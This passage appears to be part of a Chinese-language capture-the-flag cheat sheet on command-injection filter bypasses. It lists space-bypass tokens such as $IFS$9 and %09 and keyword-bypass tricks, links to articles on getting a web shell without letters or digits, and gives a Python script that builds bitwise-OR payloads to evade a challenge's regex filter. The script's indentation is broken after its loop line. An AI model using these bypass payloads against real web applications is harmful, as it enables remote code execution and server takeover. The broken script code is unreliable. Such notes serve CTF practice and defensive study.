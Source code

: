 ### 11. 空格绕过

```
%09 %0a
$IFS$9
%26
可以重定向字符来使用
${IFS}
$IFS$9
```

### 13. 关键字绕过

```
\
''
```

### 14. 无字母数字getshell

https://www.cnblogs.com/v01cano/p/11736722.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

贴个异或脚本(可以实现根据题目正则来生成payload)

```
import re

content = ''
preg = '[a-z]|[0-9]' # 题目过滤正则
# 生成字典
for i in range(256):
    for j in range(256):
        if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
            k = i | j
            if 32 <= k <= 126:
                a = '%' + hex(i)[2:].zfill(2)
                b = '%' + hex(j)[2:].zfill(2)
                content += (chr(k) + ' ' + a + ' ' + b + '\n')
f = open('rce_or.txt', 'w')
f.write(content)
while True:
payload1 = ''
payload2 = ''
code = input("data:")
for i in code:
    f = open('rce_or.txt')
    lines = f.readlines()
    for line in lines:
        if i == line[0]:
            payload1 = payload1 + line[2:5]
            payload2 = payload2 + line[6:9]
            break
payload = '("'+payload1+'"|"'+payload2+'")'
print("payload: "+ payload)
```
